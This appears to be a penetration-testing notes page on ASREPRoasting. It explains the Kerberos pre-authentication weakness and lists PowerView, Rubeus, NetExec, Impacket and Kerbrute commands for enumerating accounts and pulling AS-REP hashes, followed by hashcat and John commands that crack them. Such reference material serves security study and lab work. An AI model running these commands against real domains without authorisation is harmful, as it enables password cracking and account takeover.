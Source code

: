 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ASREPRoasting

## TL;DR&#x20;

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**. If an account has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **Authentication Service - Response (AS-REP)**. The AS-REP contains the **TGT** which is encypted with the account's password hash which, depending on its strength, can be potentially cracked.

<figure><img src="../../../../.gitbook/assets/kerberos_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="PowerView (UserEnum)" %}
{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus" %}
```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```
{% endtab %}
{% endtabs %}

## Linux <a href="#linux" id="linux"></a>

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetNPUsers.py DOMAIN/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users.lst
```
{% endtab %}

{% tab title="Kerbrute" %}
```bash
kerbrute userenum -d DOMAIN --dc 172.16.5.5 /opt/jsmith.txt 
```
{% endtab %}
{% endtabs %}

For an example of ASREPRoasting with NetExec check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#asreproasting).

## Hash cracking

{% tabs %}
{% tab title="Hashcat" %}
```bash
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou
```
{% endtab %}

{% tab title="John" %}
{% code overflow="wrap" %}
```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 asreproastable_users
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Kerberos" %}
{% embed url="https://blog.notso.pro/2020-05-07-offops-in-ad-0/" %}
A great article detailing each step of the Kerberos process.
{% endembed %}
{% endtab %}

{% tab title="GetNPUsers" %}
{% embed url="https://www.youtube.com/watch?v=pZSyGRjHNO4" %}
The workings of GetNPUsers script!
{% endembed %}
{% endtab %}

{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=wA9w8t1fRWo" %}
ASREPRoasting in 10 minutes!
{% endembed %}
{% endtab %}
{% endtabs %}
